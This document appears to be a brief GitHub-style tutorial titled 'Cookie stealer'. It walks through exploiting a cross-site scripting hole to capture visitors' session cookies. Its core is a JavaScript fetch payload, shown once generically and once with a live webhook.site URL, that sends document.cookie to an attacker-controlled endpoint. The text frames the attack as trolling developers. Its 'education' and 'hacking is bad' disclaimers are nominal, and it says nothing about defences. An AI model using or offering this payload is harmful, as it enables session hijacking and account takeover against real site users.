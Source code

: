 # Cookie stealer
This article is for education purposes.<br><br>
Your on your favorite site, when Boom! You find an XSS point. And because your a nuisance to society, you decide to exploit it, to troll those nasty devs.
## How to started
for this tutorial, first use a tool, for example, (https://webhook.site/)[Webhook.site], it should be able to track all the visits, and the params you send to it!
## Now what?
After you got yourself suited, you will exloit the xss to add something with your webhook, such as:
```javascript
fetch(webhook-url? + document.cookie)
```
Ill use:
```javascript
fetch('https://webhook.site/13da85f1-7bc4-4af2-940a-6b0f9c22bd4b?' + document.cookie)
```
Now, anyone who commits to the xss, such as a img onload, it will run this, exposing your cookie to an online attack. Stay safe. <br><b>HACKING IS BAD!!!! ONLY DO IT ETHICALLY!!!</b>